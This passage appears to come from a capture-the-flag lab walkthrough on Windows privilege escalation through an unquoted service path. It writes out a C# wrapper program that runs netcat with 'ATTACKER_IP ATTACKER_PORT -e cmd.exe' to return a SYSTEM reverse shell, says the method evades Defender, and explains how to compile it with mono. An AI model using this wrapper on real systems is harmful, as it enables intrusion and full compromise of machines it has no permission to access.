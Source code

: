 Let's recap what we found in the previous task:

- We have a privilege which we could almost certainly use to escalate to system permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work through the *unquoted service path attack* for one simple reason: getting a reverse shell back from this is _very_ easy -- even with Defender in play. 

The exploits available to manipulate the privilege we found would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._ To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system). Ideally we would write a full C# service file that would integrate seamlessly with the Windows service management system. 

Whilst this is perfectly possible (and is by far the preferable option), for the sake of simplicity, we will stick to just creating a standalone executable. It's worth noting that this technique is effective at bypassing the antivirus software on the target; however, *in an enterprise situation there is a good chance that it would be picked up by an intrusion detection system*. In this scenario we would be looking for a more sophisticated (if similar) solution.

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C# executables that can be run on Windows targets. The same code will work just fine if compiled in Visual Studio, however.

---
## Install mono

First we need to install Mono. This can be done with:  

```
sudo apt update
sudo apt install mono-devel -y
```


If you are using the AttackBox then this should already be installed.  

## Create Wrapper.cs

Now, open a file called `Wrapper.cs` in your favourite text editor.

The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  
`using System;   using System.Diagnostics;   `  

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  

```
namespace Wrapper{       
	class Program{           
		static void Main(){
			//Our code will go here!
		}
	}
}
```

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  

```
Process proc = new Process();   
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
```

_Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;   proc.Start();`  

Our program is now complete. It should look something like this:

![[1680d2c86ef0.png]]

## Compile

We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:

```
mcs Wrapper.cs
```

![[f051e39d81f6.png]]

Write and compile a wrapper program using Mono or Visual Studio.

## Transfer Wrapper.exe

Transfer the `Wrapper.exe`   file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.


